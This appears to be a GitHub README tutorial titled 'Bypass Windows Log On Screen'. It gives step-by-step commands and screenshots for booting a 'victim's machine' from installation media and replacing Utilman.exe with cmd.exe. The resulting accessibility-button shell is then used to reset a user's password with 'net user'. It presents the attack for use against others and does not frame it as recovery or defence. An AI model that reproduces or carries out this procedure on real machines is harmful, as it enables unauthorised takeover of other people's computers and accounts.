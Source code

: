 # Bypass Windows Log On Screen

# 00 Create Windows Installation Media USB

Download The Windows Installation Media Tool And Create A USB Installation Media
```
https://www.microsoft.com/en-us/software-download/windows10
```
![1](https://user-images.githubusercontent.com/94680549/228337624-e885941f-77e0-446e-a49f-4f4d0eb76dd8.png)

![2](https://user-images.githubusercontent.com/94680549/228338047-b9e13f79-37d3-49c2-b227-7d4625318e16.png)

![3](https://user-images.githubusercontent.com/94680549/228354567-a62803ee-b028-44a3-aa12-731d07784744.png)

![4](https://user-images.githubusercontent.com/94680549/228354588-b2458a32-8136-450d-8572-90ebf1179be3.png)

![5](https://user-images.githubusercontent.com/94680549/228354600-e22fe889-3663-4b5f-bc6c-07c492018de9.png)

![6](https://user-images.githubusercontent.com/94680549/228354616-d8fc3abf-a305-40c9-afd1-941fd8f59f0d.png)

![7](https://user-images.githubusercontent.com/94680549/228354636-d78dcda2-9ef0-4476-9f3d-3eb9cd5da325.png)

![8](https://user-images.githubusercontent.com/94680549/228354647-dfd3312b-abef-47a2-972e-c8a2d77fcd40.png)


# 01 Change Utilman.exe To cmd.exe
>Once The Installation Media Is Done, Plug In The USB Into The Victim's Machine

>We Are Going To Change The Utilman.exe(Accessibility Function) To Open CMD Instead
![9](https://user-images.githubusercontent.com/94680549/228472093-4686d36e-e42e-4d44-86d7-d0e9b2784fc6.png)

1.Restart While Holding The Shift Key
![10](https://user-images.githubusercontent.com/94680549/228472285-e91d753e-e66c-4920-abd1-1b9bbbadafb9.png)

2.Once You Are In This Menu, Select Use A Device
![1](https://user-images.githubusercontent.com/94680549/228473575-eee0bd01-3650-4090-9cf6-d01a5145e819.jpg)

Then Select The USB Installation Media You Created
![2](https://user-images.githubusercontent.com/94680549/228473698-5e6c03f3-2389-409e-8222-a3650e14ae49.jpg)

3.Once You Are In The Windows Installaion Menu, Press Shift+F10
![IMG20230329115443](https://user-images.githubusercontent.com/94680549/228477409-2259ad21-34f7-43f5-a0ff-a2271af86832.jpg)


4.Once cmd Is Open

List The Logical Drives/Disks On The Machine
```shell
wmic logicaldisk get name
```
![11](https://user-images.githubusercontent.com/94680549/228474816-f9cce337-4afd-4358-9eab-9e335cd47cf0.png)

Check To See Which Drive Contains Windows
![12](https://user-images.githubusercontent.com/94680549/228475150-2111c046-c4be-4c13-bed3-d8a766c1a1f2.png)

Change The Directory To Windows\System32 Where Utilman.exe Is Located
```shell
cd Windows\System32
```
![13](https://user-images.githubusercontent.com/94680549/228475750-8f59ef51-6583-4ae2-9268-a7f8f4818d2f.png)

Rename Utilman.exe To Utilman2.exe 
```shell
ren Utilman.exe Utilman2.exe
```
![14](https://user-images.githubusercontent.com/94680549/228475950-3f7f2de3-483f-4baf-ac43-711c662f7f62.png)

Copy cmd.exe As Utilman.exe
![15](https://user-images.githubusercontent.com/94680549/228476014-5fc12e2d-0af2-4794-ad6c-c3909ea3616a.png)

Once The Copy Is Successful Close CMD And The Windows Installation
![IMG20230329115809](https://user-images.githubusercontent.com/94680549/228478050-9c1c6aa8-9035-43de-9391-e02ece9a25f7.jpg)

Once The Device Boots Up, Click On Accessibility/Utilman To Open CMD
![16](https://user-images.githubusercontent.com/94680549/228478391-218aa8f3-19fa-4361-ad8b-9a524419b800.png)

To Change The Password Of The User
```shell
net user {username} {password}
```
![17](https://user-images.githubusercontent.com/94680549/228478711-df70880c-b9bd-4da1-9ce3-72d97ac131f2.png)

Once Done You Can Now Login With The New Passoword You Set
![18](https://user-images.githubusercontent.com/94680549/228478935-995dea38-f21b-419c-8671-68d667e9a6a0.png)



